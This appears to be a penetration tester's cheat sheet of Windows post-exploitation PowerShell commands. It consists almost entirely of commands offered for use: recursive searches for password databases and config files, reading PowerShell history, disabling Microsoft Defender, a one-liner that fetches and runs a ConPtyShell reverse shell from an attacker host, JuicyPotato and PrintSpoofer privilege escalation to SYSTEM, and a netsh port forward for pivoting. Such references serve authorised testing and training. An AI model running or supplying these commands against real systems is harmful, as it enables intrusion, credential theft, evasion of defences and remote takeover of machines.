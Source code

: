 # PowerShell 
% Post-Exploitation search 

## PowerShell - search for specific file ending
#platform/windows #target/local #cat/4Kp3n
```
Get-ChildItem -Path C:\<path> -Include *.<file_ending> -File -Force -Recurse -ErrorAction SilentlyContinue
```

## PowerShell - search all .txt & .ini files
#platform/windows #target/local #cat/4Kp3n
```
Get-ChildItem -Path C:\Users\ -Include *.txt,*.ini -File -Force -Recurse -ErrorAction SilentlyContinue
```

## PowerShell - search ALL
#platform/windows #target/local #cat/4Kp3n
```
Get-ChildItem -Path C:\ -Include *.pdf,*.xls,*.xlsx,*.doc,*.docx,*.zip,*.kdbx, -File -Force -Recurse -ErrorAction SilentlyContinue
```
## PowerShell - search ALL but exclude paths/filenames
#platform/windows #target/local #cat/4Kp3n
```
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.config,*.ini,*.zip,*.kdbx,*.log -File -Force -Recurse -ErrorAction SilentlyContinue | Where-Object {
    $_.Name -ne "desktop.ini" -and $_.FullName -notmatch '\\Application Data\\' -and $_.FullName -notmatch '\\AppData\\' -and $_.FullName -notmatch '\\Local Settings\\'
}
```

## PowerShell - check PowerShell history
#platform/windows #target/local #cat/4Kp3n
```
cat C:\Users\$env:username\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```


## PowerShell - recursivly search for keyword in files
#platform/windows #target/local #cat/4Kp3n
```
Get-ChildItem -Recurse -Force | Select-String -Pattern '<pattern>'
```

% SMB

## PowerShell - create SMB share
#platform/windows #target/local #cat/4Kp3n
```
New-SmbShare -Name "Share" -Path "<path|C:\Users\Public>" -FullAccess "Everyone"
```
## PowerShell - list SMB shares
#platform/windows #target/local #cat/4Kp3n
```
Get-SmbMapping
```

## PowerShell - remove a SMB share
#platform/windows #target/local #cat/4Kp3n
```
Remove-SmbMapping -RemotePath "\\<ServerName>\share"
```



## PowerShell - get 
#platform/windows #target/local #cat/4Kp3n
```
$env:PATH -split ';'
```

## PowerShell - download file via Invoke-WebRequest
```
iwr -uri http://<ip>:2337/<path>/<file> -Outfile <file>
```

## PowerShell - disable Microsoft Defender
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

% ConPtyShell
## PowerShell - download and execute ConPtyShell
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile IEX(IWR http://<ip>:<port|2337>/Windows/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <ip> <port|6666>
```

## ConPtyShell - set terminal size to a half screen terminal
```
$width=211; $height=79; $Host.UI.RawUI.BufferSize = New-Object Management.Automation.Host.Size ($width, $height); $Host.UI.RawUI.WindowSize = New-Object -TypeName System.Management.Automation.Host.Size -ArgumentList ($width, $height)
```

## PowerShell - get current terminal size
```
$size = $host.ui.rawui.WindowSize
```

% Windows PrivEsc exploits

## JuicyPotato - escalate to SYSTEM via SetImpersonatePrivileges
```
.\JuicyPotato32.exe -l 1337 -p C:\inetpub\wwwroot\rev.exe -t * -c {F087771F-D74F-4C1A-BB8A-E16ACA9124EA}
```

## PrintSpoofer - escalate to SYSTEM via SetImpersonatePrivileges (Windows 10 and Server 2019)
```
.\PrintSpoofer64.exe -c powershell.exe
```

## JuicyPotatoNG - escalate to SYSTEM via SetImpersonatePrivileges (Windows 11 and Server 2022)
```
.\JuicyPotatoNG.exe -t * -p "C:\Users\public\conptyshell.exe" -a "192.168.45.211 7777"
```



## netsh - create port forward [ADMIN]
```
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
```

## PowerUp.ps1 - invoke all checks
```
Invoke-AllChecks
```